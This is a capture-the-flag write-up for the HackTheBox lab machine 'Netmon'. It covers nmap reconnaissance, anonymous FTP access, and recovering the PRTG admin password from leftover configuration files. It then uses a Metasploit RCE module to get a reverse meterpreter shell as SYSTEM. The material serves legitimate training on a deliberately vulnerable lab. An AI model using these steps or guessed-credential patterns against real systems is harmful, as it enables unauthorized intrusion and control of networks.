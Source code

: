 +++ 
title = "Netmon HTB Write up"
description = "Write up for the HTB machine 'Netmon'"
author = "greatmoves"
tags=["hackthebox", "easy" , "nmap", "ftp", "anonymous login", "RCE vulnerability", "metasploit", "privilege escalation", "Windows"]
date = 2023-05-04
+++

# 1. Initial recon

## 1.1. nmap 
`nmap -sC -sV 10.10.10.152`

```
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: mean: -22s, deviation: 0s, median: -22s
| smb2-time: 
|   date: 2023-05-04T05:08:34
|_  start_date: 2023-05-04T04:56:57
```

# 2. user.txt
from the nmap scan we can see that anonymous ftp login is allowed, meaning we can ftp into the machine without any credentials
so we can simply run
`ftp 10.10.10.152` and input the credentials `anonymous:anonymous` to log in. from there we can navigate to our user flag at `/Users/Public/user.txt` and then run `get user.txt` to download the file and read the flag.


# 3. root.txt

Looking at the web application in the browser we can see `PRTG Network Monitor` is running with a login. so let's enumerate the file system with our ftp access to try and find some credentials.

from ftp we are able to find the directory `/ProgramData/paessler/PRTG Network Monitor`

downloading the 3 configuration files
```
PRTG Configuration.dat
PRTG Configuration.old
PRTG Configuration.old.bak
```
we are able to enuerate a username `prtgadmin` and also find a password in `PRTG Configuration.old.bak` which is `PrTg@dmin2018`

Trying the credentials `prtgadmin:PrTg@dmin2018` in the web app don't work :( 

fortunate for us the admin of this site isn't very good with their password management so we can easily guess `PrTg@dmin2019` as the new password (considering `PrTg@dmin2018` came from the old configuration), and good news for us, that works.

## 3.1. metasploit

searching the version of the software `prtg network 18.1.37.13946` on the dashboard of the web application we can see that there is an RCE vulnerability.

spinning up `msfconsole` we simply run the commands
```
search prtg
use 0
set admin_password PrTg@dmin2019
set rhosts 10.10.10.152
set lhosts YOUR_IP
run
```
once we have our meterpreter shell we can run the commands
```
shell
whoami
```
which will reveal that we are `nt authority\system`

the root flag can be found at `C:\Users\Administrator\Desktop` and read using `type "root.txt"`